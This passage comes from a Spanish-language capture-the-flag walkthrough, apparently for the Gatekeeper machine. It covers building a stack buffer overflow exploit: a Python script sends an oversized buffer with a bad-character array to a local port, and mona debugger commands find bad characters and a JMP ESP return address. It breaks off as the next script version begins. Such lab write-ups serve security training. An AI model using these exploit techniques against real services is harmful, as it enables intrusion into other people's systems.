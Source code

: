 ip = "127.0.0.1"
port = 31337


#badchars \x00 \x0a
buf    =  "\x41" * 146
buf   +='BBBB'
buf   += "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21"
buf   += "\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41"
buf   += "\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61"
buf   += "\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81"
buf   += "\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1"
buf   += "\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1"
buf   += "\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1"
buf   += "\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

 

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buf + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```
*modificamos el python lo guardamos, debug restart , run y ejecutamos el py. del CMD.
Hacemos el ```mona.mona('compare -f C:\\logs\\gatekeeper\\bytearray.bin -a ESP')```como resultado debe salir esto:
![22](https://user-images.githubusercontent.com/107126653/172856342-6e2d65b7-503b-4b4d-8cc3-16c588110dd9.png)
HOORRAY!!!! Estos son todos los badchars! .


Ahora tenemos que conseguir la direccion de retorno mediante este comando  ``mona.mona("jmp -r esp")``
![23](https://user-images.githubusercontent.com/107126653/172857048-392a61d7-41f9-459e-9c86-7d998b7b19ba.png)
obtenemos estas direcciones que debemos de introducir en el python pero antes debemos de comprobar que no esten los badchars que hemos conseguido anteriormente.En el python debe quedar así:

```
import socket

ip = "127.0.0.1"
port = 31337
